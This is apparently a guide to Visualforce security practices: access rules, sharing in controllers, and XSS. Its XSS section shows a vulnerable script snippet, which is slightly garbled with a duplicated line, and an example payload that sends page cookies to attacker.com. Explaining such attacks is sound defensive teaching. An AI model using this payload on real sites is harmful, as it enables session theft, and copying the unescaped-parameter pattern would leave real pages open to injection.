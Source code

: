 - Write test class for 100% coverage - evaluate all decision branches and loops
- Test with large test data volumes and use data variations

## Security in Visualforce

Consider application and data security in your design of Visualforce pages.

You should apply access rules to enable Visualforce page to intended audience only -

- Set page access rules - provide access to VF pages for specific profiles

Apply data security rules for your controllers -

- use `with sharing` in controllers to prevent overreach
- provide access to controllers to intended audience only (class access can be provided for top-level Apex only)
- provide access to methods for specific profiles
- best practices for Apex apply

Since Visualforce is a frontend component, following security considerations applicable for general webpages apply -

- Use Visualforce front end security best practices to prevent - XSS, CSRF attacks (see below)
- Avoid vulnerabilities from unescaped formula expressions on VF page
- Introduce checks to sanitize user input and prevent SOQL injection
- Use iFrames to display data from unsecured sources if there is no other way to secure information

Combine these practices with overall Salesforce security including IP range filters, valid login times, two-factor authentication to minimize vulnerability surface area.

### Cross site scripting (XSS)

XSS is a term that refers to the possibility of including malicious HTML/Javascript in a web application to overcome system-defined access rules and gain access to view/edit information.

All pages with `<apex:page>` tag have automatic XSS protection. HTML tags are escaped by using this tag to prevent potentially malicious content.

You are responsible for security and have to use caution for -

- using `escape=false` in tags
- coding your own Javascript.

For example, consider the below code included in your page -

```html
<script>
  var foo = '{!$CurrentPage.parameters.userparam}';script>
  var foo = '{!$CurrentPage.parameters.userparam}';
</script>
```

A malicious actor can use an totally unexpected `userparam` provided below to send cookies to a third party site.

```js
1';document.location='http://www.attacker.com/cgi-bin/cookie.cgi?'%2Bdocument.cookie;var%20foo='2


```
